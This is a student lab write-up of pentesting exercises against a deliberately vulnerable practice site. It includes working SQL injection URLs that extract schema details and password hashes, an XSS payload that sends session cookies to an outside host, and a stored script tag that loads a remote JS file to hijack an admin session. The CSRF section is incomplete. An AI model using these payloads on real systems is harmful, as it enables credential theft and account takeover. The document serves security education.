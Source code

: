 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)<br />  
    ![GIF Walkthrough](./img/B1.gif)<br />  
    Steps to recreate:
- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1
- Replace the id parameter with a single quote ```'```.<br />
Example: ```https://104.198.208.81/blue/public/salesperson.php?id='```
- After the quote type url encoded SQL command.<br />
Example: ```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+```
- You can interate through the records by changing the ```LIMIT``` and ```OFFSET``` values
- Some of the example commands:<br />```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+```

- Data collected:
    - Database: globitek_blue
    - Tables:
        - users
        - territories
        - states
        - salespeople_territories
        - salespeople
        - failed_logins
        - countries
        - feedback
    - Columns
        - id
        - name
        - code
        - username
        - count
        - last_attempt
        - email
        - feedback
        - created_at
        - first_name
        - last_name
        - phone
        - territory_id
        - salesperson_id
        - country_id
        - state_id
        - position
        - hashed_password

Vulnerability #2: Session Hijacking/Fixation<br />  
    ![GIF Walkthrough](./img/B2short.gif)<br />  
    Steps to recreate:
- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
  ```html
        <script src="https://bit.ly/2z1UCVh"></script>
  ```  
  https://bit.ly/2z1UCVh is a shortened link for a <a href="./js_scripts/Untitled-8.js">js script</a> hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin  
This is possible because new PHPSESSID is not generated when a used logs into website



## Green

Vulnerability #1: Username Enumeration<br />  
    ![GIF Walkthrough](./img/G2.gif)<br />  
    Steps to recreate:
- On the Log In page try to bruteforce diffent usernames.
- The usernames tha exist in the database will get the message "Log in was unsuccessful" in bald.  
The error message is highlited in bald because a different CSS class is assigned to the error message for usernames that exit in the database.


Vulnerability #2: Cross-Site Scripting (XSS)<br />  
    ![GIF Walkthrough](./img/G1.gif)<br />  
    Steps to recreate:
- Go to the Contact page.
- In the text area type the following script 
  ```html
    <script>var node = document.createElement('img');
    node.src = "http://192.168.1.2:3000?cookie="+document.cookie;
    document.getElementById("main-content").appendChild(node);</script>
  ```
- Submit the form
- When admin checks the feeedback ```PHPSESSID``` will be sent to the http://192.168.1.2:3000 address as a GET parameter


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)<br />  
    ![GIF Walkthrough](./img/R1.gif)<br />  
    Steps to recreate:
- Go to the "Find a Salesperson" page.
- Click on one of the salespersons page.
- Increment the number at the end of the URL.

Vulnerability #2: Cross-Site Request Forgery (CSRF)<br />  
    ![GIF Walkthrough](./img/R1.gif)<br />  
    Steps to recreate:
- Go to the "Find a Salesperson" page.


## Notes

Describe any challenges encountered while doing the work
